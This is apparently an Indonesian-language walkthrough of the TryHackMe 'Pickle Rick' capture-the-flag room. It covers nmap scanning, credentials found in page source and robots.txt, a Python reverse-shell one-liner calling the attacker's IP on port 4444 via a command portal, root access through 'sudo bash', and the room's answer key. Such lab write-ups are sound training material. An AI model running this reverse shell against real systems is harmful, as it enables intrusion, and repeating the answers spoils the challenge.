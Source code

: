 # CTF - Pickle Rick
- TryHackMe Challenge: https://tryhackme.com/room/picklerick
- IP Machine: 10.10.172.106

# Nmap Report
- Baris perintah: `nmap -sV -A <IP Machine>`
```sh
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -A 10.10.172.106
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-29 19:44 EDT
Nmap scan report for 10.10.172.106
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f6bbf9e8176b483c616e7fe7b3dc6ad2 (RSA)
|   256 9d8527a53623d37ba397cb9f308841ae (ECDSA)
|_  256 cc423adf1180534d8445e1357c2cac92 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=7/29%OT=22%CT=1%CU=36558%PV=Y%DS=2%DC=T%G=Y%TM=64C5A47
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10E%TI=Z%II=I%TS=8)SEQ(SP=1
OS:04%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)OPS(O1=M508ST11NW7%O2=M508ST11NW7%O
OS:3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=68DF%W2=
OS:68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT       ADDRESS
1   193.06 ms 10.8.0.1
2   195.02 ms 10.10.172.106

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.35 seconds
```

## Gobuster
- Baris perintah: `gobuster dir -u http://<IP Machine> -w <wordlists>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%201.JPG)

## Content Discovery
- Buka halaman web `http://<IP_machine>` di browser

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%202.JPG)

- Tekan **Ctrl+U** atau klik kanan pada halaman lalu pilih **View Page Source** untuk menampilkan source code halaman. Disini ditemukan informasi bahwa usernamenya adalah **R1ckRul3s**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%203.JPG)
![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%204.JPG)

- Buka halaman `http://<IP_machine>/robots.txt` di tab baru. Disini ditemukan sebuah password

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%205.JPG)

```sh
username: R1ckRul3s
password: Wubbalubbadubdub
```

## Gain Access
- Lakukan login ke halaman `http://<IP_machine>/login.php` dengan username dan password yang ditemukan diatas

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%206.JPG)

- Setelah login berhasil, halaman langsung di redirect ke halaman portal.php

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%207.JPG)

- Jika kita ketik `ls` lalu tekan Execute maka diperoleh daftar file sebagai berikut

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%208.JPG)

- Jika kita ketik `cat Sup3rS3cretPick13Ingred.txt` lalu tekan Execute maka muncul pesan bahwa perintah tersebut telah di block

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%209.JPG) 

- Gunakan Payload berikut untuk masuk ke server. Ganti **10.8.142.62** dengan IP tun0 pada komputer yang anda gunakan
```sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.142.62",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'
```

- Buka terminal dan jalankan netcat dengan printah `nc -lnvp <port>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%2010.JPG)

- Copy payload dan paste ke halaman portal.php `http://<IP_machine>/portal.php` lalu tekan Execute

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%2011.JPG)

- Netcat berhasil terkoneksi dan masuk sebagai user **www-data**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%2012.JPG)

- Disini kita bisa membaca file **Sup3rS3cretPick13Ingred.txt** dengan perintah `cat Sup3rS3cretPick13Ingred.txt` yang sebelumnya diblock

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%2013.JPG)

- Di directory **/home** ditemukan home directory **rick**. Navigasi ke directory **/home/rick** dan disana ditemukan file **second ingredients**. Buka file tersebut dengan perintah `cat 'second ingredients'`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%2014.JPG)

## Privilege Escalation
- Untuk menemukan final ingredient diperlukan akses user root. Jalankan 2 baris perintah ini untuk memperoleh akses user root

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
sudo bash
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%2015.JPG)

- Setelah berhasil masuk sebagai user root, navigasi ke directory **/root** maka disini ditemukan file **3rd.txt** yang berisi final ingredient. Buka file tersebut dengan perintah `cat 3rd.txt`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%2016.JPG)

## Pertanyaan dan Jawaban:

- **Pertanyaan:** What is the first ingredient that Rick needs?
```sh
mr. meeseek hair
```

- **Pertanyaan:** What is the second ingredient in Rick’s potion?
```sh
1 jerry tear
```

- **Pertanyaan:** What is the last and final ingredient?
```sh
fleeb juice
```